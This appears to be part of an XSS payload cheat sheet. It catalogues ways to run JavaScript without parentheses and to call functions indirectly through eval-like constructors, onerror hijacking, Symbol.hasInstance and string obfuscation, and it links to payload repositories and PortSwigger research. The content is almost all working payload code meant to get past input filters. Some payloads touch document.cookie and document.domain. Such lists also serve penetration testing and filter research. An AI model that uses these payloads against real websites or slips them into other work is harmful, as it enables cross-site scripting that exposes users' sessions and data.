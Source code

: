 ````javascript
  // Error handler + Special unicode separators
eval("onerror=\u2028alert\u2029throw 1337"); 
  // Error handler + Comma separator
  // The comma separator goes through the list and returns only the last element
var a = (1,2,3,4,5,6) // a = 6
throw onerror=alert,1337 // this is throw 1337, after setting the onerror event to alert
throw onerror=alert,1,1,1,1,1,1337
  // optional exception variables inside a catch clause.
try{throw onerror=alert}catch{throw 1}


// Has instance symbol
'alert\x281\x29'instanceof{[Symbol['hasInstance']]:eval}
'alert\x281\x29'instanceof{[Symbol.hasInstance]:eval}
  // The “has instance” symbol allows you to customise the behaviour of the instanceof operator, if you set this symbol it will pass the left operand to the function defined by the symbol.
````

* [https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
* [https://portswigger.net/research/javascript-without-parentheses-using-dommatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)

**Arbitrary function (alert) call**

````javascript
//Eval like functions
eval('ale'+'rt(1)')
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Function('ale'+'rt(10)')``;
[].constructor.constructor("alert(document.domain)")``
[]["constructor"]["constructor"]`$${alert()}```
import('data:text/javascript,alert(1)')

//General function executions
`` //Can be use as parenthesis
alert`document.cookie`
alert(document['cookie']) 
with(document)alert(cookie) 
(alert)(1)
(alert(1))in"."
a=alert,a(1)
[1].find(alert)
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)
[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
top[/al/.source+/ert/.source](1)
top[8680439..toString(30)](1)
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
$='e'; x='ev'+'al'; x=this[x]; y='al'+$+'rt(1)'; y=x(y); x(y)
````